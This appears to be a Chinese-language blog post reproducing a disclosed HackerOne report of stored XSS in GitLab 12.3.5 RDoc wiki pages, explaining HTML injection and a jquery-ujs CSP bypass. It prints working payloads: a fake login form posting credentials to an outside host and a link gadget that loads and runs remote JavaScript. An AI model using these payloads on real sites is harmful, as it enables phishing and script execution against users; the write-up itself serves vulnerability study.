 ```yaml
---
layout: post
title: "Reproduction: Gitlab Cross-site Scripting (XSS) - Stored in RDoc wiki pages"
date: 2023-12-25 10:31:06 +0800
categories: xss
---
```


## Name

> Gitlab Cross-site Scripting (XSS) - Stored in RDoc wiki pages

## Weakness

> XSS

## Severity

> 高危

## Environment

> Ubuntu 18.04
> gitlab 12.3.5

> 原文：[https://hackerone.com/reports/662287](https://hackerone.com/reports/662287)

## URL

## Summary

该漏洞存在于用 md 构建 wikipage 这一过程，由于后端没有对 rdoc(和 markdown 很像，ruby 文档生成器)进行严格处理，导致用户能够注入大量 html 代码，这个漏洞太经典了，后续很多漏洞都是以此为基础而利用。

![rdoc](/assets/gitlab/1/rdoc.png)

报告过程

1. 2019 年 7 月 28 日，首先找到 rdoc 渲染问题，用户能够将 image 嵌入到 a 标签中，并且能够注入 class 属性。
2. 注入的 class 属性利用了原应用的类，将 a 标签 z-index 置顶，诱导用户点击。
3. 用户甚至能够注入 html 代码，构造钓鱼弹框。但是还没涉及到 xss。（以上是 ruby 后端渲染漏洞）
4. 攻击者发现可以注入特定类的 html 代码，拼接前端的 jquery 代码，实现 xss 注入。该处还未实现 csp 绕过。
5. 2 个月后，2019 年 10 月 13 日，该漏洞还未修复。并且 gitlab 引用了新的漏洞代码 jquery-ujs，利用 data-method 属性，实现 csp 绕过。（以上是前端漏洞）
6. 总结下来，该漏洞分为三部分，第一部分是 html 注入，第二部分是 xss 注入，第三部分是 csp 绕过。
7. 因此，复现以最新版本进行，2019 年 10 月 13 日发布的 gitlab12.3.5。

要点：

1. class 注入，改变元素外观，从而触发点击
2. a 标签包围 img 标签，img 设置为无限大，触发点击
3. jquery-ujs 的 data-method
   jquery-ujs 提供了一些额外的特性，如将 data-remote 属性应用到链接和表单上，然后使用 AJAX 请求提交数据，或者利用 data-confirm 属性显示确认对话框。

### backend, rails

payload

```
a form
{
<div class="modal show d-block">
<div class="modal-dialog">
<div class="modal-content">
<div class="modal-header">
<h3 class="page-title">Please Log In</h3>
</div>
<div class="modal-body">
<form class="new-wiki-page" action="http://aw.rs/">
<div class="form-group">
<label for="username"><span>Username</span></label>
<input type="text" name="username" id="username" class="form-control">
<label for="password"><span>Password</span></label>
<input type="password" name="password" id="password" class="form-control">
</div>
<div class="form-actions"><button name="button" type="submit" class="btn btn-success">Login</button></div>
</form>
</div>
</div>
</div>
</div>
}[/]
```

可以看到能够注入 `div、h3、form、label、input` 等标签，以及 `class、action、id、type` 等属性。 后端渲染时可以注入部分标签、class 和部分属性，但是 data 属性无法注入，应该是后端做了过滤。因此才会利用前端 gadget 来注入新的包含 `data-*`属性的 a 标签，因此该攻击的本质是，首先通过后端注入有限的 html，然后再通过前端 gadget 来注入无限的 html。
提交该数据的 url 为 post 方法：*http://10.206.44.19:8033/root/xss/wikis*

### frontend, jquery gadgets

需要点击触发 jquery-ujs 的 data-method 方法，也就是说只要网站支持 jqeury-ujs，并且能够注入 a 标签及其属性，那么 xss 必然出现

payload1:

```
{
<form class="gl-show-field-errors">
<input type="text" title="&#x3C;/p&#x3E;&#x3C;a data-remote=&#x22;true&#x22; data-confirm=&#x22;Are you sure&#x22; data-method=&#x22;get&#x22; data-type=&#x22;script&#x22; href=&#x22;https://gitlab.com/vakzz-h1/public/-/raw/master/test.js&#x22; class=&#x27;atwho-view select2-drop-mask pika-select&#x27;&#x3E;&#x3C;img height=10000 width=10000&#x3E;&#x3C;/a&#x3E;">
}[#]
```

后端渲染结果：

```
<form class="xxx"><input type="" title="xxx">
```

前端渲染后：

```
<form><a data-method='get'><img></a></form>
```

经过测试 jquery-ujs 会直接执行 script，如下面代码片段，在最新版本上测试可以 xss：

```
<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery-ujs/1.2.3/rails.js"></script>
<a data-remote="true" data-confirm="Are you sure" data-method="get" data-type="script"
        href="https://gitlab.com/vakzz-h1/public/-/raw/master/test.js">
        jquery-ujs xss test
</a>
```

其中 data-type 对应 ajax 的 type 字段，参考

- [https://github.com/rails/jquery-ujs/wiki/Unobtrusive-scripting-support-for-jQuery-%28list-of-data-attributes%29#data-type](https://github.com/rails/jquery-ujs/wiki/Unobtrusive-scripting-support-for-jQuery-%28list-of-data-attributes%29#data-type)
- [https://api.jquery.com/jQuery.ajax/](https://api.jquery.com/jQuery.ajax/)

```
dataType (default: Intelligent Guess (xml, json, script, or html))
"script": Evaluates the response as JavaScript and returns it as plain text. Disables caching by appending a query string parameter, _=[TIMESTAMP], to the URL unless the cache option is set to true. Note: This will turn POSTs into GETs for remote-domain requests. an XML MIME type will yield XML, in 1.4 JSON will yield a JavaScript object, in 1.4 script will execute the script, and anything else will be returned as a string
```

例如在 chrome-tools control+p 搜索：jquery-ujs 关键字，看目标网站是否有该库

![ujs](/assets/gitlab/1/ujs.png)

payload2:

```
{
<form class="gl-show-field-errors">
<input type="text" title="<script>alert(11)</script>">
}[#]
```

从下一个复现漏洞中得知利用前端 jquery 片段的漏洞，由于该漏洞需要在页面初始化时才会调用，而本次复现，后端渲染的漏洞代码直接通过路由页面返回。因此 main.js 得以执行触发该漏洞。
